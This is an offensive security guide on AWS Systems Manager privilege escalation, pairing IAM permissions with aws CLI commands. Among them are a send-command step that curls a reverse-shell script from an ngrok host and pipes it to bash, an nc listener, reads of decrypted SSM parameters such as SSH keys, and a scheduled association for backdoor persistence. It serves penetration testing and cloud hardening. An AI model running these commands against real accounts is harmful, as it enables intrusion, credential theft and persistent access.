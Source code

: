 # AWS - SSM Privesc

## SSM

For more info about SSM check:

[[../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/]]

### `ssm:SendCommand`

An attacker with the permission **`ssm:SendCommand`** can **execute commands in instances** running the Amazon SSM Agent and **compromise the IAM Role** running inside of it.

```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
   --document-name "AWS-RunShellScript" --output text \
   --parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```

In case you are using this technique to escalate privileges inside an already compromised EC2 instance, you could just capture the rev shell locally with:

```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
   --document-name "AWS-RunShellScript" --output text \
   --parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```

**Potential Impact:** Direct privesc to the EC2 IAM roles attached to running instances with SSM Agents running.

### `ssm:StartSession`

An attacker with the permission **`ssm:StartSession`** can **start a SSH like session in instances** running the Amazon SSM Agent and **compromise the IAM Role** running inside of it.

```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```

> [!CAUTION]
> In order to start a session you need the **SessionManagerPlugin** installed: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)

**Potential Impact:** Direct privesc to the EC2 IAM roles attached to running instances with SSM Agents running.

#### Privesc to ECS

When **ECS tasks** run with **`ExecuteCommand` enabled** users with enough permissions can use `ecs execute-command` to **execute a command** inside the container.\
According to [**the documentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) this is done by creating a secure channel between the device you use to initiate the “_exec_“ command and the target container with SSM Session Manager. (SSM Session Manager Plugin necesary for this to work)\
Therefore, users with `ssm:StartSession` will be able to **get a shell inside ECS tasks** with that option enabled just running:

```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```

![[../../../images/image (185).png]]

**Potential Impact:** Direct privesc to the `ECS`IAM roles attached to running tasks with `ExecuteCommand` enabled.

### `ssm:ResumeSession`

An attacker with the permission **`ssm:ResumeSession`** can re-**start a SSH like session in instances** running the Amazon SSM Agent with a **disconnected** SSM session state and **compromise the IAM Role** running inside of it.

```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
    --session-id Mary-Major-07a16060613c408b5
```

**Potential Impact:** Direct privesc to the EC2 IAM roles attached to running instances with SSM Agents running and disconected sessions.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

An attacker with the mentioned permissions is going to be able to list the **SSM parameters** and **read them in clear-text**. In these parameters you can frequently **find sensitive information** such as SSH keys or API keys.

```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```

**Potential Impact:** Find sensitive information inside the parameters.

### `ssm:ListCommands`

An attacker with this permission can list all the **commands** sent and hopefully find **sensitive information** on them.

```
aws ssm list-commands
```

**Potential Impact:** Find sensitive information inside the command lines.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

An attacker with these permissions can list all the **commands** sent and **read the output** generated hopefully finding **sensitive information** on it.

```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```

**Potential Impact:** Find sensitive information inside the output of the command lines.

### Using ssm:CreateAssociation

An attacker with the permission **`ssm:CreateAssociation`** can create a State Manager Association to automatically execute commands on EC2 instances managed by SSM. These associations can be configured to run at a fixed interval, making them suitable for backdoor-like persistence without interactive sessions.

```bash
aws ssm create-association \
  --name SSM-Document-Name \
  --targets Key=InstanceIds,Values=target-instance-id \
  --parameters commands=["malicious-command"] \
  --schedule-expression "rate(30 minutes)" \
  --association-name association-name
```

> [!NOTE]
> This persistence method works as long as the EC2 instance is managed by Systems Manager, the SSM agent is running, and the attacker has permission to create associations. It does not require interactive sessions or explicit ssm:SendCommand permissions. **Important:** The `--schedule-expression` parameter (e.g., `rate(30 minutes)`) must respect AWS's minimum interval of 30 minutes. For immediate or one-time execution, omit `--schedule-expression` entirely — the association will execute once after creation.

### Codebuild

You can also use SSM to get inside a codebuild project being built:

[[../aws-codebuild-privesc/README.md]]

